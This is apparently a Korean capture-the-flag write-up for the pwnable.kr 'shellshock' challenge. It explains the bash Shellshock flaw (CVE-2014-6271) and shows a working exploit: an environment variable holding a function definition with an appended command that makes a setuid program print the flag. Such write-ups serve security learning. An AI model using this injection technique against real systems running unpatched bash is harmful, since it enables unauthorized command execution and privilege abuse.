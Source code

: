 # 문제
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure:)

ssh shellshock@pwnable.kr -p2222 (pw:guest)

---
# 개요
```
shellshock@ubuntu:~$ ls
bash  flag  shellshock	shellshock.c
shellshock@ubuntu:~$ cat shellshock.c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

shellshock@ubuntu:~$
```
---
# 분석
shellshock 취약점은 bash가 subshell을 실행시키면서 발생합니다.  
bash의 환경변수에 함수 정의를 이용해서 원격 코드를 추가할 수 있고 다음 bash 가 사용될 때 추가된 코드가 실행됩니다. 즉 함수정의 뒤에 임의의 명령을 추가하면 bash는 환경변수를 import 할때 끝에 추가된 명령까지 같이 실행하게 됩니다.    
이를 이용하여 test 라는 환경 변수에 함수정의를 이용하여 /bin/cat/flag 라는 명령을 추가한 후 바이너리를 실행하면 취약점에 의해 플래그를 출력할 것입니다
```
shellshock@ubuntu:~$ export test='() { echo Hi; }; /bin/cat flag'
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$
```
